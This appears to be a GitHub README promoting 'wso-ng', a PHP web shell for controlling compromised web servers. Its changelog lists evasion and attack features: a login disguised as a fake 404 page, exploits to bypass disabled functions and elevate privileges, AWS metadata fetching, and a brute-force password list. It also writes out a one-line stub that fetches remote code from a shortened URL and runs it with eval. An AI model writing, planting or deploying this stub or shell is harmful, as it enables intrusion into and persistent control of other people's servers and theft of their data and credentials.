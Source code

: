 [![Twitter Follow](https://img.shields.io/twitter/follow/0xbadad?style=social)](https://twitter.com/0xbadad)
# wso-ng
New generation of famous WSO web shell. With perks included
# default password is "root"
![image](https://user-images.githubusercontent.com/1212294/149636180-7af99caf-a6c4-4475-a42d-0bd818cb67b1.png)
![image](https://user-images.githubusercontent.com/1212294/149636349-e580a04e-846f-4240-8b94-644d6e9aca5a.png)

# changes
- can now hook password when loaded via stub ```<?php eval(substr(file_get_contents('https://bit.ly/get-wso-ng?pass=ed78a48738eb97ffb5624741bdf391c3'), 5)); ?>```, and will use it instead of hardcoded one
- all subfile downloads are now cached in /tmp and zipped
- login page show natural site "404 not found" page. Just type password and press Enter, cuz password field hidden offscreen, but focused already.
- new breadcrumps navigation panel. Must be much more usefull.
- all files\dirs are now highlighted as their edit\view rights
- go to file\path right from breadcrumps field
- **add fastCGI exploit to auto-elevate & bypass disabled functions, when possible**
- **add php add-filter exploit to bypass disabled functions and gain console execution, when possible**
- ajax interaction now is default
- Ctrl+Enter on any field to Save\Run
- added "Fetch AWS metadata" command to bookmarks
- added hotlink to "Linux Exploit Suggester v2" by default.
- added VirusTotal integration, to autocheck IP reputation.
- added https://securitytrails.com integration, to show neighbors on same IP.
- added ip-info integration to show domains on same server
- added reverse ip check, to show real IP, and not local.
- added memory, cores and load average info to top bar.
- click on IP to copy it
- added list of open ports & sockets to *Sec. Info* section. Works ever if no console priveleges available, thru *fsock*.
- added support for phpRedis in *Sec. Info* section.
- reworked "Userful" section. Works thru limits of open basedir now.
- you can touch files right in file list of file manager now.
- fast copy name\path to clipboard by click.
- **neat syntax highlighting everywhere**.
- neat PHP code editing with autoindent support.
- default top1000 password list (https://bit.ly/top1kpass) in "Bruteforce" section. 
